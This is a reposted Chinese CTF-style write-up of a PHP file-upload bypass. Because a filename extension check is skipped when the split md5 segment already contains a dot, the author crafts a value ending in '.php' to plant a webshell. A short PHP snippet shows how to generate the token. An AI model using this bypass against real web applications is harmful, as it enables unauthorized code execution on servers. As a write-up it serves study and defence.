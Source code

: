 最终相当于写入的文件是`static/upload/$md5[0]/$md5[1].$ext`

因此php文件写不了，虽然可写入的其他后缀可控，但是没法写入.htaccess之类的，因此也解析不了，正常

是没法写马的，我把这些代码看了一遍后也是这么想的，所以我还是太菜了。

仔细看了 

```PHP
        if (!strpos($savename, '.')) {
            $savename .= '.' . pathinfo($this->getInfo('name'), PATHINFO_EXTENSION);
        }

        return $savename;

```

如果`$md5[1]`里面有后缀呢？就相当于直接`return $savename`了，最后相当于是这里：

```PHP                
static/upload/$md5[0]/$md5[1]

```

因此可以考虑把php后缀写到`$md5[1]`里面，想办法构造一下：

```       PHP
<?php
$md5="73058d518344b513098c51845768.php"; 
$md5=str_split($md5,16);
$ext="png";
$filename = join('/', $md5) . ".{$ext}";
echo md5($filename);

```

至少.php必须在16-32长度之间，生成一下token，是1d3eb018ca985d5fb7668cc8112f2cd3，md5是`73058d518344b513098c51845768.php`，传入文件的后缀是png，然后上传：

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/b5ace0022bab8c57131322a7966ee74e.png)

虽然说文件上传失败，但其实还是成功了的：

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/c567cc3de84af52733ba13cfd5772d22.png)



转载

https://blog.csdn.net/rfrder/article/details/115067196
